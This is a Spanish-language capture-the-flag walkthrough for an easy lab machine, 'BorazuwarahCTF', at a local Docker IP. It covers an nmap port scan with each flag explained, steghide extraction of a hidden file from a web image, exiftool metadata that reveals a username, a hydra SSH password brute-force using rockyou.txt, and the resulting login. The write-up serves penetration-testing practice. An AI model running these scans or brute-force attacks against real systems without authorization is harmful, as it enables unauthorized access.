








**Autor:** BorazuwarahCTF

**Dificultad:** Muy Fácil

**Fecha de creación:** 28/05/2024


DESPLIEGUE

```
bash auto_deploy.sh borazuwarahctf.tar
```





------------------------
PROCEDIMIENTO:

Tenemos la IP: 
```
172.17.0.2
```


---------------------------

RECONOCIMIENTO

```
nmap -p- -sS -sV -sC --min-rate 5000 -n -vvv -Pn 172.17.0.2
```

`-p-` ⮞ aplicar reconocimiento a todos los puertos. 
`-sS` ⮞ para descubrir puertos de manera silenciosa y rápida.  
`-sV` ⮞ Encuentra la versión del servicio abierto. 
`-sC` ⮞ Usa unos scripts de reconocimiento.
`--min-rate 5000` ⮞ para que el reconocimiento vaya más rápido. 
`-n` ⮞ no aplica la resolución DNS (tarda mucho en el caso de que no pongamos dicho parámetro) .
`-vvv` ⮞ conforme descubre un puerto nos lo muestra por pantalla.  
`-Pn` ⮞ Ignora si esta activa o no la IP.  

`-oG` ⮞ exportamos el resultado en formato grepeable (para extraer mejor los datos con herramientas como grep, awk)  (Este no lo usaré).





Nos vamos a la página web y nos sale :





Nos descargamos la imagen y veremos si tiene algún archivo oculto. Haremos el siguiente comando:

```
steghide extract -sf imagen.jpeg
```




```
cat secreto.txt
```




Lo cual nos da una pista. Buscaremos  más información dentro de esta imagen como son los metadatos , usaremos `exiftool`, por lo cual usando el comando 

```
exiftool imagen.jpeg
```



Y ahí tenemos un usuario `borazuwarah`

Ahora fuerza bruta. 

```
hydra -l borazuwarah -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```



```
ssh borazuwarah@172.17.0.2
```



Y ya estamos adentro. 

